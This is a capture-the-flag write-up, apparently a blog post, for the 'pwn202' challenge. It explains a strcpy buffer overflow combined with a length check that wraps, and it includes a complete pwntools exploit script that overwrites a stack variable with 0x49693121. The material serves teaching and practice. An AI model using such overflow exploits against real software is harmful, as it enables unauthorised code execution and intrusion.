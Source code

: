 ```yaml
---
layout: post
date: 2025-07-25 12:32:42 +0300
categories: NCSC-2025 pwn
title: pwn202
tags: i386 ret2win buffer-overflow int-overflow
---
```


## Information
- category: pwn
- points: 1000

## Description
> None

## Write-up

When running:
```
λ ~/Desktop/CTF@NCSC/pwn/pwn2/ ./pwn202
Hey please enter the Secret password for lab 202 mr pwner:
AAAA
Length of your input is: 4
are you sure ? Not the password mr Pwner !
```

But if input is too long:
```
λ ~/Desktop/CTF@NCSC/pwn/pwn2/ ./pwn202
Hey please enter the Secret password for lab 202 mr pwner:
AAAAAAAAAAAAAAAAAAA
Length of your input is: 19
hey ! you must Keep the length between 4 and 8, I can see you are doing a overflow !!
```
So there’s **length checking logic** before something interesting happens.



Using Ghidra, we reverse the `check()` function and discovered the following:
<img src="/images/baby/Shot-2025-07-26-033339.png" style="border-radius: 14px;">

### Vulnerability 
- The program uses `strcpy()` to copy user input into `local_17`, a 10-byte buffer. 
- However, it doesn't validate the actual size, only the **length of input**, and only **after** calling `strlen()` and **before** calling `strcpy()`. 
- So **even if the length is valid (4 ≤ len ≤ 8)**, a malicious input can overwrite `local_c` which is **right after** `local_17`.


- Overwrite `local_c` with `0x49693121` by carefully crafting our input to overflow the buffer and land that integer in memory. 
- We must: 
1. Keep our input length **between 4 and 8** to pass the check.
2. Still overflow `local_17` enough to **overwrite `local_c`** with our target value. 
3. Use binary tools (like GDB or pwndbg) to find the **exact offset** between `local_17` and `local_c`”


## Exploit
```python
#!/usr/bin/env python3

from pwn import *

exe = ELF("./pwn202_patched")

context.binary = exe


def conn():
    if args.LOCAL:
        r = process([exe.path])
        if args.DEBUG:
            gdb.attach(r)
    else:
        r = remote("")

    return r


def main():
    r = conn()

    payload = b'A' * 11
    payload += p32(0x49693121)
    payload += b'B' * 245
    r.sendline(payload)
    r.interactive()

if __name__ == "__main__":
    main()
```

## Flag
> Flag:``` ```


